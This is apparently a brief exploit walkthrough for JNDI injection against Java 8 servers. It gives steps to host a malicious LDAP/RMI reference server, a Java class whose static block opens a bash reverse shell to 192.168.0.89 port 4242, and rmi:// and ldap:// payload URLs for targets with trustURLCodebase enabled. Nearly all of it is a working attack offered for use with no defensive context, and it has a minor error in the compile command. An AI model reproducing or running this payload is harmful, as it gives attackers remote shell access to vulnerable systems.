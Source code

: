 
Run `python3 -m http.server 8010`

Use JDNI-Exploit-Kit to start the LDAP ref server

Then create ExecTemplateJDK8.java:

```java
import java.io.BufferedReader;
import java.io.FileReader;
import java.io.IOException;
import java.io.InputStreamReader;

public class ExecTemplateJDK8
{
    static {
        System.out.println("hello world ls -lah");
        try {
            String[] cmd = {"/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.0.89/4242 0>&1"};
            Process p = Runtime.getRuntime().exec(cmd);
            p.waitFor();
            try (BufferedReader bf = new BufferedReader(new InputStreamReader(p.getInputStream()))) {
                String line;
                while ((line = bf.readLine()) != null) {
                    System.out.println(line);
                }
            }
        } catch (Exception exception) {
            exception.printStackTrace();
        }
    }
}
```

Compile with javac ExecTemplateJDK8.class

Use this one:

```
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://192.168.0.89:1099/nsxlbk
ldap://192.168.0.89:1389/nsxlbk
```
